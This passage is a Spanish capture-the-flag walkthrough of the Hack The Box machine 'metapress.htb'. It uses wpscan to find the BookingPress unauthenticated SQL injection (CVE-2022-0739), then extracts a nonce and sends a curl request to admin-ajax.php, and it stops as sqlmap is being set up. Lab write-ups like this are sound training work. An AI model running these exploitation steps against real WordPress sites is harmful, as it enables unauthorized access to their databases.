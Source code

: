 ![](https://i.ibb.co/JnL9C16/wappalyzer-wordpress.png)

```bash
wpscan --url http://metapress.htb --plugins-detection mixed -e ap,at -t 450 --api-token {TU API TOKEN}
```

**Luego de que la herramienta haya finalizado con el escaneo, encontramos una vulnerabilidad para explotar:**


> [!] 1 vulnerability identified:  
> [!] Title: BookingPress < 1.0.11
>  Unauthenticated SQL Injection  
> - Fixed in: 1.0.11  
> - References: https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357 
> - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0739 
> - https://plugins.trac.wordpress.org/changeset/2684789


 **En base a esto procedemos a ejecutar el exploit de la vulnerabilidad:**
 
#### Primero creamos un evento dentro de la página de metapress.htb/events. Lo cual significa que hicimos ya, la primera parte del exploit.

#### Luego buscamos el código "nonce" en el código fuente HTML de la página de creación eventos: "http://metapress.htb/events/". El código ***"nonce"*** es en mi caso "f5c16a06dd". Ya lo tenemos! Así que procedemos:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=f5c16a06dd&category_id=1&total_service=1'
```

Salida en consola:

```
HTTP/1.1 200 OK Server: nginx/1.18.0 Date: Fri, 25 Nov 2022 16:41:51
GMT Content-Type: text/html; charset=UTF-8 Transfer-Encoding: chunked
Connection: keep-alive X-Powered-By: PHP/8.0.24 X-Robots-Tag: noindex
X-Content-Type-Options: nosniff Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0 X-Frame-Options:
SAMEORIGIN Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"1","bookingpress_category_id":"1","bookingpress_service_name":"Startup meeting","bookingpress_service_price":"$0.00","bookingpress_service_duration_val":"30","bookingpress_service_duration_unit":"m","bookingpress_service_description":"Join us, we will celebrate our startup!","bookingpress_service_position":"0","bookingpress_servicedate_created":"2022-06-23","18:02:38","service_price_without_currency":0,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

Como vemos en consola, el sitio es vulnerable a *SQL Injection*, por lo que pasamos a usar la herramienta **"SQLmap"**. Pero para esto necesitamos el archivo **req.txt** que lo conseguiremos usando la herramienta **Burp Suite** de tal forma que dirigimos la petición POST con el comando "curl" añadiéndole el parámetro "--proxy" para capturar el tráfico. 
